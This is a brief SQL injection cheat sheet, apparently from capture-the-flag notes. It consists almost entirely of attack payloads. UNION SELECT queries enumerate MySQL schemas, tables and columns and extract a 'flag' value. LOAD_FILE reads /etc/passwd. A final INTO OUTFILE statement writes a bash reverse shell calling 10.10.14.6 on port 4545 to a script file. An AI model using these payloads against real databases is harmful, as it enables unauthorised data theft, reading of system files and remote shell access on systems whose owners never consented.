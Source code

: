 ## Enumeration
#### Databases
```sql
UNION SELECT 1, schema_name ,3,4 FROM information_schema.schemata -- -

# -- mysql
# -- information_schema
# -- cs
```
#### Tables
```sql
UNION SELECT 1, table_name ,3,4 FROM information_schema.tables WHERE table_schema='cs'

# -- flag
# -- products
```
#### Columns
```sql
UNION SELECT 1, column_name ,3,4 FROM information_schema.columns WHERE table_name='flag'

# -- id
# -- name
```
#### Register
```sql
UNION SELECT 1, name ,3,4 FROM cs.flag
```
## Write and Read
#### Read
```sql
UNION SELECT 1, LOAD_FILE('/etc/passwd') ,3,4

UNION SELECT 1, hex(LOAD_FILE('/etc/passwd')) ,3,4
```
#### Write
```sql
SELECT '$ bash -c \'bash -i >& /dev/tcp/10.10.14.6/4545 0>&1\'' INTO OUTFILE '/script/payload.sh';
```